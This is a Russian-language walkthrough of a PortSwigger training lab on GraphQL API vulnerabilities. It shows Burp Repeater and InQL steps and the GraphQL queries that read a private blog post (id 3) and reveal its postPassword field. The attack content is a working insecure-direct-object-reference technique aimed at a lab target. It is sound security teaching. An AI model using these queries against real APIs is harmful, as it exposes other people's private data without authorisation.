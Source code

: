 Откроем уязвимый ресурс и перейдем по постам, которые там выложены

Далее откроем `Proxy` -> `HTTP history` и найдем `POST` Запрос в GraphQL и отправим его в `Repeater`
```
POST /graphql/v1
```
Для этого зайдем в Extensions и установим расширение GraphQL - InQL
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/1.%20Accessing%20private%20GraphQL%20posts/pics%20for%20walkthrough/1.png)

Откроем запрос через расширение GraphQL и посотрим, что у нас нет элемента с id 3
и даже увидим функцию, по которой мы получаем список полей из запроса

```
query getBlogSummaries {
    getAllBlogPosts {
        image
        title
        summary
        id


    }
}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/1.%20Accessing%20private%20GraphQL%20posts/pics%20for%20walkthrough/2.png)
Далее скопируем URL в наше расширение InQL и увидим, что мы можем обратиться к конкретному посту, и по следующим параметрам
```
query {
    getBlogPost(id: Int!) {
        author
        date # Timestamp scalar
        id
        image
        isPrivate
        paragraphs
        postPassword
        summary
        title
    }
}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/1.%20Accessing%20private%20GraphQL%20posts/pics%20for%20walkthrough/3.png)

Вернемся в `Repeater` и изменим запрос в квери согласно найденному шаблону, достав все поля 
```
query {
    getBlogPost(id: 3) {
        author
        date # Timestamp scalar
        id
        image
        isPrivate
        paragraphs
        postPassword
        summary
        title
    }
}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/1.%20Accessing%20private%20GraphQL%20posts/pics%20for%20walkthrough/4.png)


И заметим поле      `"postPassword": "gepnpk9g372hp8ryzy245o4nw22nsu2w"`,
которое мы и сдадим в качестве ответа

после чего и получим сообщение об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/1.%20Accessing%20private%20GraphQL%20posts/pics%20for%20walkthrough/5.png)
